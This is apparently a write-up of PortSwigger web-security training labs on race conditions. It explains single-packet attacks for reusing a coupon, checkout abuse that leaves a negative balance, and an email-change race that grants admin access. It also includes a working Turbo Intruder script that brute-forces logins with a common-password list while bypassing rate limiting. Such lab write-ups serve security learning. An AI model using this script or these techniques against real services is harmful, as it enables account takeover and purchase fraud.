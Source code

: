 # Race conditions

- https://portswigger.net/web-security/race-conditions
- https://portswigger.net/research/smashing-the-state-machine
- https://www.youtube.com/watch?v=tKJzsaB1ZvI
- https://github.com/PortSwigger/turbo-intruder/blob/master/resources/examples/default.py
- https://github.com/PortSwigger/turbo-intruder/blob/master/resources/examples/race-single-packet-attack.py

## Limit overrun race conditions

While making a purchase we are able to submit a coupon for 20% discount. 

`POST /cart/coupon` request applying the coupon can be intercepted and once we do that we can perform `single-packet-attack` using Burp Turbo Intruder, which makes use of HTTP2 streaming, stacking multiple requests in one connection, `Nagle's algorithm` and `last byte synchronization`. This send 20-30 request without their last byte, each in different stream. Then in the single frame send the ending of each frame in different streams, causing the server to accept and start calculating them all in nearly the same time.

Performing this attack for that requests reveals that there is not well handled time difference between accepting the coupon and devalidating it, which causes to apply the same coupon multiple times, solving the lab.

## Bypassing rate limits via race conditions

After too many failed request attempts the applications blocks us from performing further login tries for some increasing period of time.

We can observe, that sending a few requests one by one, starts responding with block error, but when sending 20 request at the same tim with `single-packet-attack`, the application always responds with `Incorrrect username or password`, and not with block error, because of that we can suspect race condition bug in this rate limiting functionality. 

Using Turbo Intruder code shown below, we are able to conduct `single-packet-attack`, performing 20 password guesses every block (every 60, 120, 180... seconds), because the application incorrecly handle time between checking the condition for block and blocking the account.

```
# Find more example scripts at https://github.com/PortSwigger/turbo-intruder/blob/master/resources/examples/default.py
import time

REQUESTS_PER_GATE = 20
PASSWORDS = [
    "123123",
    "abc123",
    "football",
    "monkey",
    "letmein",
    "shadow",
    "master",
    "666666",
    "qwertyuiop",
    "123321",
    "mustang",
    "123456",
    "password",
    "12345678",
    "qwerty",
    "123456789",
    "12345",
    "1234",
    "111111",
    "1234567",
    "dragon",
    "1234567890",
    "michael",
    "x654321",
    "superman",
    "1qaz2wsx",
    "baseball",
    "7777777",
    "121212",
    "000000",
]

def queueRequests(target, wordlists):

    # if the target supports HTTP/2, use engine=Engine.BURP2 to trigger the single-packet attack
    # if they only support HTTP/1, use Engine.THREADED or Engine.BURP instead
    # for more information, check out https://portswigger.net/research/smashing-the-state-machine
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )

    # the 'gate' argument withholds part of each request until openGate is invoked
    # if you see a negative timestamp, the server responded before the request was complete
    index = 0
    wait_seconds = 0
    for pwd in PASSWORDS:
        index += 1
        engine.queue(target.req, [pwd], gate='race')
        if index >= REQUESTS_PER_GATE:
            # once every 'race' tagged request has been queued
            # invoke engine.openGate() to send them in sync
            time.sleep(wait_seconds + 5)
            engine.openGate('race')
            wait_seconds += 60
            index = 0
            

def handleResponse(req, interesting):
    table.add(req)
```

## Multi-endpoint race conditions

In this lab, the key is to align processing time of different endpoints. This can be done by warming up the connection, sending multiple requests to add a delay in processing all of them etc.

This time the app has a logic flaw, which allow adding items to the basket after payment validation.

Using Burp Repeater group requests we can construct a group of requests and send them in sequence or as `single-packet attack`.

Here we will add 1 gift card to the basket via `POST /cart` request and then create a group of requests with 1 `POST /cart/checkout` request for submiting the payment and 19 `POST /cart` requests, but this time with `productId` pointing to the jacket, not the giftcard.

This required a couple of tries, but each time we could observe strange app behaviours, like not all products added to the basket (for example I was able to submit the basket successfull as first request, but only 4 of 19 jackets were added to the basket afterwards), not always errors regarding empty basket etc.

After 5th try I was able to successful buy a jacket and be left with -1200$ in the account.

## Single-endpoint race conditions

To identify differences between email change requests I've used email template system shown below, with `i` as a request number in Turbo Intruder

```
"wiener+"+str(i)+"@exploit-0abf00d004864ba3832818bb01fe0013.exploit-server.net"
```

By performing multiple change email address requests sequencialy we cannot observe any strange behaviour, we receive a couple of emails one by one for each requested email change. Email recipent match with email content and verification link.

Once we perform multiple email change requests in parrarel (using `single-packet attak`), we can see that the behaviour differs. Now some of the emails with recipent identifier `8` received validation links for email with identifier `6`. It seems like all recipents received the email, but not all of them for their account, so we may conclude that the email changing fucntion is receiving the email that the mail should be sent to as a parameter, but email contant may be drawn from some shared space.

Now we can try to perform `single-paket attack` sending 10 packets with email change for `carlos@ginandjuice.shop` and 10 for `wiener@exploit-0a2a005504941a6a821cff27015b0015.exploit-server.net`. This can be done via Turbo Intruder or grouped requests in the Repeater sent in parrarel.

After that we can check the email and try to confirm verification token for `carlos@ginandjuice.shop` email, which will successfully change our email and grant us admin privillages.
